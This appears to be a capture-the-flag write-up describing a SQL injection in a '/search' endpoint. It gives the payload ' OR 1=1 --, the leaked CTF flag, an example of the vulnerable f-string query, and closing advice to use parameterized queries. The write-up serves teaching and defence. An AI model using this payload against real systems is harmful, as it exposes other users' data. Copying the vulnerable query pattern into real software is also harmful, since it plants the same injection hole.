

# 2. SQL Injection in Search

## Vulnerability Discovery

The search functionality at `/search` was tested for SQL injection vulnerabilities.

**Screenshot:** 

## Initial Testing

We tested for XSS first (didn't work), then tried SQL injection:

**Payload:**
```sql
' OR 1=1 --
```


## Results

The payload returned ALL notes from ALL users, bypassing the intended user-specific filtering.

Screenshot: 

## Interesting Findings

The search results revealed:
- Admin notes
- Hidden flags
- System information
- References to other endpoints like `/password_viewer`

## Flag Found

`CTF{kjb2n8sD_hc8sD6_ethixCTF26arena_pL90k18m}`

## Technical Explanation

The vulnerable SQL query likely looked like:
```python
# Vulnerable code
query = f"SELECT * FROM notes WHERE content LIKE '%{user_input}%' AND user_id = {current_user}"
```

Our payload transformed it to:
```sql
SELECT * FROM notes 
WHERE content LIKE '%' OR 1=1 -- %' AND user_id = 4
```

The `--` comments out the rest, and `OR 1=1` returns all records.

## Key Takeaway

Always use parameterized queries or prepared statements to prevent SQL injection!
